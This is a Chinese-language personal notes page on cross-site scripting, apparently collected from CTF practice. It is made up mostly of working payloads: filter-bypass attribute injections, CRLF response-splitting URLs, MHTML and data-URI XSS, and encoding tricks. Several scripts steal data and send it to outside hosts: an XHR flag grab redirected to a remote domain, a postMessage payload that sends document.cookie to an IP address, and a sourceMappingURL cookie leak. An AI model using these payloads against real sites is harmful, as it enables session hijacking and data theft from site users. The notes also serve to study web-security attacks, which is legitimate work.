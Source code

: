 ```yaml
---
title: xss
date: 2018-03-27 16:27:13
tags:
---
```

link 标签引入外部 js。

```javascript
也可以用域名，将 . 用 。 代替。
<link rel=import href=\\八进制ip
```

```javascript
<script>
  var xhr = new XMLHttpRequest();
  xhr.open("GET", "https://router.vip/flag.php", false);
  xhr.send();
  a=xhr.responseText;
  location.href='https://master.xbfzss.cn/?a='+escape(a);
</script>
```

xss:
jquery版本>=1.9
sourceMappingURL加载外部资源
<script>//# sourceMappingURL=https://xxx.com/?${escape(document.cookie)}</script>

```
<input name=keyword  value="<scrilpt>alert(1);</script>">
payload:" onmouseover=alert(1) "
<input name=keyword  value="" onmouseover=alert(1) "">
```

```
<input name=keyword  value=''>
payload:' onmouseover=alert(1) '
<input name=keyword  value=' onmouseover=alert(1) ''>
```

```
<input name=keyword  value="">
过滤了on
<input name=keyword  value="" o_nclick=alert(1) "">

payload:"><a href="javascript:alert(1)" >as</a>
<input name=keyword  value=""><a href="javascript:alert(1)" ></a>">
```
```
<input name=keyword  value="">
过滤了on
<input name=keyword  value="" o_nclick=alert(1) "">

payload:"><a href="javascript:alert(1)" >as</a>
<input name=keyword  value=""><a href="javascript:alert(1)" ></a>">
```

空格可以使用%0a，%0d绕过

= onmouseover=alert\`1\`
alert(1)   两边的括号可以使用``替换

```
<html>
<script type="text/javascript">
var call_window;
call_window = window.open("http://localhost/call.php");
setTimeout(function(){
    call_window.postMessage({
      type: "audio",
      details: {
      sender_username: "<img src=xx: onerror=window.open('http://123.207.90.143/index.php?a='+document.cookie)>",
        sender_team_name: "zzzz",
        receiver_username: "test",
        receiver_team_name: "test"
      }
    }, "*");
}, 1000);
</script>
</html>
```

## CRLF 注射攻击（HTTP ResponseSplitting）(HRS)

``` .aspx
nameValueCollection request = Request.QueryString;
Response.Cookies["username"].Value = request["text"]
```

正常访问:

> http://www.test.com/demo.aspx?text=test

正常情况下，会使用text=test来setcookie

payload:

> http://www.test.com/demo.aspx?text=a%0D%0ASet-Cookie%03A020HackedCookie=Hacked

正常情况下：HTTP Response如下:

> HTTP/1.1 200 OK
>
> Set-Cookie: userName=test
>
> Content-Type: text/html; charset-utf-8

使用payload的情况下:

> HTTP/1.1 200 OK
>
> Set-Cookie: username=a
>
> Set-Cookie: HackedCookie=Hacked
>
> Content-Type: text/html; charset-utf8

更严重的情况下:

payload:

> http://www.test.com/page.php?page=%0d%0aContent-Type: text/html%0D%0AHTTP/1.1 200 OK %0D%0AContent-Type: text/html%0D%0A%0D%0A%3Chtml%3EHacker Content%3C/html%3E

该代码明显恶意，但是浏览器也会执行。

## MHTML协议安全[IE浏览器]

MHTML协议格式:

> mhtml: [Mhtml_File_Url]![Original_Resource_Url]

新建一个HTML文件，demo.html

```html
Content-Type: multipart/related; boundary="_boundary_by_mere"

--_boundary_by_mere
Cotent-Location: demo
Content-Transfer-Encoding: base64

PHNjcmlwdD5hbGVydCgneHNzJyk7PC9zY3JpcHQ=
--_boundary_by_mere--
```

当使用如下链接进行访问的时候，就会弹窗：

> mhtml:http://127.0.0.1/demo.html!demo

注意:为了让IE调用MHTML Protocol Handler将该资源当做MHTML格式文件解析处理，需要把URL修改为MHTML协议，在"http"之前加上"mhtml:"，在url后边加上"!demo"字样。

此外，还可以结合CRLF漏洞实现XSS。

首先PHP脚本如下(test.php):

```php
<?php
    echo $_GET['k'];
?>
```

构造url:

> mhtml:http://127.0.0.1/test.php?k=ax%250AContent-Type%3A%20multipart%2frelated%3B%20boundary%3D%22_boundary_by_mere%22%250D%250A--_boundary_by_mere%250D%250ACotent-Location%3A%20xss%250D%250AContent-Transfer-Encoding%3A%20base64%250D%250A%250D%250APHNjcmlwdD5hbGVydCgneHNzJyk7PC9zY3JpcHQ%3D%250D%250A--_boundary_by_mere--!xss

## 利用Data URIs进行XSS

该方案和MHTML有些类似。Data URI格式如下:

>  data:\[<mime type>\]\[;charset=<charset>\]\[;base64\],<encoded data>

> data指代URI协议
>
> mime type 代表数据类型，如PNG图片则为image/png,若无说明，默认为text/plain
>
> charset 如果不适用base64，则使用charset指定的字符类型
>
> encoded data 对应的编码信息

例如:

```html
<img src="data:image/gif;base64,R0lGODlhMwAxAIAAAAAAAP///
yH5BAAAAAAALAAAAAAzADEAAAK8jI+pBr0PowytzotTtbm/DTqQ6C3hGX
ElcraA9jIr66ozVpM3nseUvYP1UEHF0FUUHkNJxhLZfEJNvol06tzwrgd
LbXsFZYmSMPnHLB+zNJFbq15+SOf50+6rG7lKOjwV1ibGdhHYRVYVJ9Wn
k2HWtLdIWMSH9lfyODZoZTb4xdnpxQSEF9oyOWIqp6gaI9pI1Qo7BijbF
ZkoaAtEeiiLeKn72xM7vMZofJy8zJys2UxsCT3kO229LH1tXAAAOw==">
```

XSS隐患，执行XSS最常用的方法是引入<script>标签，如果过滤，就没有办法使用了。

> \<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk7PC9zY3JpcHQ+"\>test\</a\>

其中:

> PHNjcmlwdD5hbGVydCgneHNzJyk7PC9zY3JpcHQ+

解码后:

> \<script\>alert('xss');\</script\>

这种方法，现在不支持，同样不支持的还有<meta>标签，  chrome和firefox都会禁止。  

>  <meta http-equiv="Refresh" content="0; URL=data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk7PC9zY3JpcHQ+">

<object>则可以使用,<iframe>也行。

> <object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk7PC9zY3JpcHQ+"></object>
>
> <iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk7PC9zY3JpcHQ+"></iframe>

## simple xss

XSS payload只允许使用大小写字母数字加上`<^*~\-|_=+`这些特殊符号，那么大概只有两种方案：

1. 利用onload=A=B 可以作一句给A(通常是location)赋值B的简单js赋值操作
2. 利用某些奇怪的HTML标签特性

比赛时感觉方向1行不通，于是我走了方向2的思路。但方向1还真让某`LC↯BC`队<https://ctftime.org/writeup/5956> 脑洞出来了个奇葩思路

><svg id=\ onload=location=id+id+12345609861+domain+id+1234+id 

我们（nao）想（dong）出来的payload有如下几个关键点：

1. Chrome会把域名中的`。`（全角句号）理解成`.`
2. `<link rel=import`这种标签会把html import到当前页面里....N年前玩polymer的时候常用的一种标签...这里不能用script标签，因为script标签没有正常闭合时引用的js貌似不会被执行
3. `\\`会被Chrome理解成`//`，`\`也会理解成`/` （其实这里有个小插曲，我Win10上的Chrome会把`\\`理解成windows资源管理器里敲的那种`\\`也就是samba协议(或`file://`伪协议)...所以这种payload XSS Windows貌似是不行...?）， 因此`\\example。com\xssHtml`会变成`//example.com/xssHtml`

综上，payload:

> <link rel=import href=\\example。com\xssHtml other= 

## RSS中的XSS

略

## 浏览器差异

```html
<script type="text/javascript"><!--
    var x = "xssed</script x\><script x\>alert(/xss/);//";
//--></script>
```

Chrome会动态修正一些节点，如将</script x\>修正为</script>，由于该特性只是按照标签配对，没有考虑HTML注释或其他复杂情况，会导致xss.

## 编码绕过

```html
<img src="" onerror="j&#00097vascript:alert('xss');">
<img src="" onerror="j&#97vascript:alert('xss1');">
<img src="" onerror=" javascript:alert('xss3');">
```



##  危险字符

| <    | &lt          |
| ---- | ------------ |
| >    | ```&gt;```   |
| &    | ```&amp;```  |
| "    | ```&quot;``` |
| '    | ```&#39```   |

## Dom-Based XSS

> document.URL
>
> document.URLUencoded
>
> document.location(.pathname|.href|.search|.hash)
>
> window.location(.pathname|.href|.search|.hash)
>
> document.referrer
>
> window.name
>
> document.cookie
>
> HTML5 postMessage
>
> localStorage/globalStorage
>
> XMLHTTPRequest response
>
> Input.value
